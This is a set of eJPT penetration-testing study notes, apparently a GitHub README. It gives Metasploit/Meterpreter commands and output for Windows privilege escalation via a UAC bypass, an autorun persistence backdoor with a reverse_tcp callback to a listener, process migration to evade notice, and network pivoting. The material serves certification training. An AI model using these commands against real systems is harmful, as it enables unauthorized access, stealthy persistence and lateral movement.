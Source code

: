 # eJPT
Some helps to pass eJPT

# Footprinting & Scanning

## NMAP


# Metasploit
Start metasploit with

```
$ msfconsole
```
# Meterpreter
## Privileges Escalation
On windows machine
```
meterpreter> getsystem
```
if doesn't work, probably windows has UserControlAccess enabled,so:
```
meterpreter> run post/windows/gather/win_privs
```
look if is true, and then
```
meterpreter> background
msf exploit(handler)> search uac
```
```
msf exploit(handler)> use exploit/windows/local/bypassuac
msf exploit(handler)> sessions
msf exploit(handler)> set SESSION <n>
msf exploit(handler)> exploit
meterpreter> getsystem
```
## Persistence
```
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```
We will configure our persistent Meterpreter session to wait until a user logs on to the remote system and try to connect back to our listener every 5 seconds at IP address 192.168.1.71 on port 443.
```
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
[*] Creating a persistent agent: LHOST=192.168.1.71 LPORT=443 (interval=5 onboot=true)
[*] Persistent agent script is 613976 bytes long
[*] Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
[*] Agent executed with PID 492
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
[*] For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```
To verify that it works, we reboot the remote system and set up our payload handler.
```
meterpreter > reboot
Rebooting...
meterpreter > exit

[*] Meterpreter session 3 closed.  Reason: User exit
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.71:443
[*] Starting the payload handler...
```
## Migrate PID to another PID to look less sus
```
meterpreter> getpid
meterpreter> ps -U SYSTEM //process with system privilege, choose one
meterpreter> migrate PID
```
# PIVOTING
When we get access into a machine, we can check with ifconfig if there is another network which we couldn't access.
So let add the route to this network in msfconsole.
```
meterpreter> run autoroute -h
```
autoroute allow us to add a route to the network.
```
route add 192.69.228.0 255.255.255.0 1
```
for adding manually a route on msfconsole:

add //the command

subnet //subnet to connect

netmask //netmask of the subned

sid //meterpter session id

